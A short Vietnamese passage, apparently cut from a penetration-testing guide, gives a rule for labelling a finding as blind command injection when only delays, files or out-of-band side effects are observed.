Nếu response không trả command output và chỉ quan sát được delay/file/OOB side effect,
đánh dấu Blind Command Injection.
```
